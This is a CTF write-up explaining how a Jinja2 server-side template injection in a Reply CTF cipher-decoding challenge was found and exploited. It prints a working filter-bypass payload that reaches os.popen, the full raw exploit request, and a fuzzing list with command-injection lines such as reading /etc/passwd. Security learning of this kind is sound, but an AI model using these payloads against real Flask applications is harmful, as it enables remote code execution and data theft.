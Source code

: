 - 2020-10-23
- Reply CTF: Server Side Template Injection

# Prelude

This a 200 point web challenge as part of a Jepordy style CTF event hosted by [Reply](https://challenges.reply.com/). This post discusses how a sever side template injection vulnerability was identified then exploited while bypassing a filter.

## TL;DR

Webpage consisted of a HTML form to decrypt input using a symmetric cipher. If an encoded Jinja2 template was decoded, the template was executed server-side. A filter was present which banned all Python operators, built-in functions, and keywords as well as Jinja2 built-in functions/globals which was bypassed using escaped strings to access request arguments to include banned tokens. By working around the filter it was possible to produce a payload (decoded):

```py
{% raw %}
{{((((((((request|attr('a\x70\x70lication'))|attr((request|attr('f\x6frm'))['a\x72gs']))[(
request|attr('f\x6frm'))['a\x72gs2']])[(request|attr('f\x6frm'))['a\x72gs3']])((request|at
tr('f\x6frm'))['a\x72gs4']))|attr((request|attr('f\x6frm'))['a\x72gs5']))((request|attr('f
\x6frm'))['a\x72gs6']))|attr((request|attr('f\x6frm'))['a\x72gs7']))()}}
{% endraw %}

# which is equivalent to

getattr(getattr(getattr(request.application, "__globals__")["__builtins__"]["__import__"](
"os"), "popen")("cat flag/flag.txt"), "read")()

# which is equivalent to

import os;
os.popen("cat flag/flag.txt").read()
```

# Start

The webpage consists of a HTML form and two `textarea`'s for input and output; below is an image.

![webpage](web/assets/reply_web200.png)

Inspecting the page source uncovers a comment.

```html
{% raw %}
<!-- Created by P0n0 -->
{% endraw %}
```

Wasting half an hour trying to find "P0n0" using OSINT made it clear this was a waste of time. Focusing on the webpage, the webpage itself would: allow a user to input ciphertext, send the form to the webserver, then the server would place the plaintext into the adjacent `textarea`. It was discovered that the cipher being used was symmetric (though the identity of the cipher was unknown).

| Ciphertext | | Plaintext |
--- | | ---
this is a test | : | E9:D :D 2 E6DE
E9:D :D 2 E6DE | : | this is a test

A web-browser became limiting once the user facing aspects of the page were investigated, [BurpSuite](https://portswigger.net/burp) became useful to log, inspect, and modify requests made to the webserver. The requests to decrypt data were generic HTTP POST requests with form data which included a `cipher` field.

![BurpSuite](web/assets/reply_web200_burp.png)

There were several possibilities at this point depending on the programming language/environment being used by the webserver:
- [Type Juggling](https://www.youtube.com/watch?v=ASYuK01H3Po) (PHP)
- [Buffer Overflow](https://www.cloudflare.com/learning/security/threats/buffer-overflow/) (C, C++, etc.)
- Miscellaneous exploitation (e.g. inserting `NUL` characters into the ciphertext).

## Fuzzing

SSTI was not considered at this point because the webpage did not look immediately exploitatable. Type Juggling and Buffer Overflows were not possible which left Miscellaneous exploitation. A few hand written payloads were attempted before BurpSuite's [Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder) feature was utilised. The intruder feature allowed for automatic fuzzing of the `cipher` parater using a generic webapp wordlist (a sample is listed below).

```
%0Acat%20/etc/passwd
%0Aid
%0a id %0a
%0Aid%0A
%0a ping -i 30 127.0.0.1 %0a
%0A/usr/bin/id
%0A/usr/bin/id%0A
```

![Sniper output](web/assets/reply_web200_sniper.png)

Looking at the sizes of the responses we see that two payloads had a significantly smaller page size which suggested there was an error during processing, sending this request in burp we see this for ourselves.

```
' AND 1=0 UNION ALL SELECT '', '81dc9bdb52d04dc20036dbd8313ed055
" AND 1=0 UNION ALL SELECT "", "81dc9bdb52d04dc20036dbd8313ed055
```

![Internal error](web/assets/reply_web200_error.png)

While disecting the above payloads we discovered "LL" would break the server, decrypting this gave {% raw %} {{ {% endraw %} which immediately meant this was an SSTI vulnerability.

# SSTI

Knowing it was SSTI was due to knowing the templating engine [Jinja2](https://jinja.palletsprojects.com/en/2.11.x/) (used by [Flask](https://flask.palletsprojects.com/en/1.1.x/)) uses {% raw %} {{ {% endraw %} for marking the start of templates. The next step was to look at the Jinja2 documentation to see how a request can be crafted to access information on the webserver. The documentation mentioned that there are specific [global varaibles](https://jinja.palletsprojects.com/en/2.11.x/api/#global-namespace) available within templates, inspecting this on a local machine saw that the Flask [`request`](https://werkzeug.palletsprojects.com/en/1.0.x/wrappers/#werkzeug.wrappers.BaseRequest) object and [`config`](https://flask.palletsprojects.com/en/1.1.x/api/#configuration) object was available. To learn more about the webserver, the payload {% raw %} {{config}} {% endraw %} was encoded then decoded.

![Flask configuration](web/assets/reply_web200_config.png)

There is an entry: `'SECRET_KEY': '}FLG:ThisIsTheRightFlag!{'` which is a false flag (literally), we have to exploit the webserver. To do this, we successively modify the below script until we can encode then execute it on the server.

```py
import os
os.popen("cmd").read()
```

We can only execute single statements within the template because `;` is escaped - there is a filter. Consequently, we have to inline the payload. To achieve this we use the underlying function [`__import__`](https://docs.python.org/3/library/functions.html#__import__) facilitating the `import` keyword.

```py
__import__("os").os.open("cmd").read()
```

`__import__` is filtered.

![filter](web/assets/reply_web200_filter.png)

To indirectly reference `__import__` we can access it through [`__builtins__`](https://docs.python.org/3/library/builtins.html) (a value containing all built-in objects) using `getattr` (the function invoked for the `.` operator).

```py
__builtins__["__import__"]("os").open("cmd").read()
```

`__builtins__` is also filtered which presents a new problem since there is no way to indirectly access `__builtins__` from an arbitrary namespace. However, Flask has an [`application`](https://flask.palletsprojects.com/en/1.1.x/api/#flask.Request.application) object accessible from the `request` object which represents the Flask application and includes the application's **namespace**. We cannot refer to the object `__builtins__` so we need to access by referencing it as a string, this is achieveable with [`__getitem__`](https://docs.python.org/3/reference/datamodel.html#object.__getitem__) which is the underlying function for the `[]` operator (we use the high-level syntax for reasons made clear later).

```py
getattr(request.application, "__builtins__")["__import__"]("os").open("cmd").read()
```

`getattr` and `.` are filtered which presents another problem because there is no way to access the atttribute of an object in Python without using either or these. However, Jinja2 has [built-in](https://jinja.palletsprojects.com/en/2.11.x/templates/#list-of-builtin-filters) functions for templates accessible from Python. One such function is [`attr`](https://jinja.palletsprojects.com/en/2.11.x/templates/#attr) which can get the attribute of an object using the `|` operator (the `attr` function itself is filtered).

```py
(((((request|attr("application"))|attr("__builtins__"))["__import__"]("os")|attr("open"))|
attr("cmd"))|attr("read"))()
```

`"application"` is filtered and there is _no other way_ to get the `application` object a better understanding of the filter is required. The filter likely considers each character individually prior to substitution so we can potentially escape characters which passes a static evaluation but is evaluated as the correct value at runtime. To save time, all Python operators are filtered as well as implicit string literal concetenation (e.g. `"a" "b" == "ab"`). Hex encoding can split a character from a static perspective: `"application" == "a\x70\x70lication"`.

```py
(((((request|attr('a\x70\x70lication'))|attr("__builtins__"))["__import__"]("os")|attr("op
en"))|attr("cmd"))|attr("read"))()
```

Double quotes are filtered along with a subset of strings using apostrophes. To combat this, additional arguments can be provided in the request which contain the filtered tokens which can be substituted into the payload (bypassing static analysis). The arguments can be accessed using `request.application.form.<ARGUENT>`.

```py
((((((((request|attr('a\x70\x70lication'))|attr((request|attr('f\x6frm'))['a\x72gs']))[(re
quest|attr('f\x6frm'))['a\x72gs2']])[(request|attr('f\x6frm'))['a\x72gs3']])((request|attr
('f\x6frm'))['a\x72gs4']))|attr((request|attr('f\x6frm'))['a\x72gs5']))((request|attr('f\x
6frm'))['a\x72gs6']))|attr((request|attr('f\x6frm'))['a\x72gs7']))()
```

(`"form"` and `"args"` is escaped, hence the hex encoding). The request arguments contain the strings above in order for the request to succeed. Putting this payload into Burp then sending it yields:

![flag](web/assets/reply_web200_flag.png)

The raw request is listed below:

```
POST /0b7d3eb5b7973d27ec3adaffd887d0e2/ HTTP/1.1
Host: gamebox1.reply.it
Content-Length: 1144
Origin: http://gamebox1.reply.it
Content-Type: application/x-www-form-urlencoded

cipher=%4c%4c%57%57%57%57%57%57%57%57%43%36%42%46%36%44%45%4d%32%45%45%43%57%56%32%2d%49
%66%5f%2d%49%66%5f%3d%3a%34%32%45%3a%40%3f%56%58%58%4d%32%45%45%43%57%57%43%36%42%46%36%44
%45%4d%32%45%45%43%57%56%37%2d%49%65%37%43%3e%56%58%58%2c%56%32%2d%49%66%61%38%44%56%2e%58
%58%2c%57%43%36%42%46%36%44%45%4d%32%45%45%43%57%56%37%2d%49%65%37%43%3e%56%58%58%2c%56%32
%2d%49%66%61%38%44%61%56%2e%2e%58%2c%57%43%36%42%46%36%44%45%4d%32%45%45%43%57%56%37%2d%49
%65%37%43%3e%56%58%58%2c%56%32%2d%49%66%61%38%44%62%56%2e%2e%58%57%57%43%36%42%46%36%44%45
%4d%32%45%45%43%57%56%37%2d%49%65%37%43%3e%56%58%58%2c%56%32%2d%49%66%61%38%44%63%56%2e%58
%58%4d%32%45%45%43%57%57%43%36%42%46%36%44%45%4d%32%45%45%43%57%56%37%2d%49%65%37%43%3e%56
%58%58%2c%56%32%2d%49%66%61%38%44%64%56%2e%58%58%57%57%43%36%42%46%36%44%45%4d%32%45%45%43
%57%56%37%2d%49%65%37%43%3e%56%58%58%2c%56%32%2d%49%66%61%38%44%65%56%2e%58%58%4d%32%45%45
%43%57%57%43%36%42%46%36%44%45%4d%32%45%45%43%57%56%37%2d%49%65%37%43%3e%56%58%58%2c%56%32
%2d%49%66%61%38%44%66%56%2e%58%58%57%58%4e%4e&args=__globals__&args2=__builtins__&args3=__
import__&args4=os&args5=popen&args6=cat%20flag/flag.txt&args7=read
```
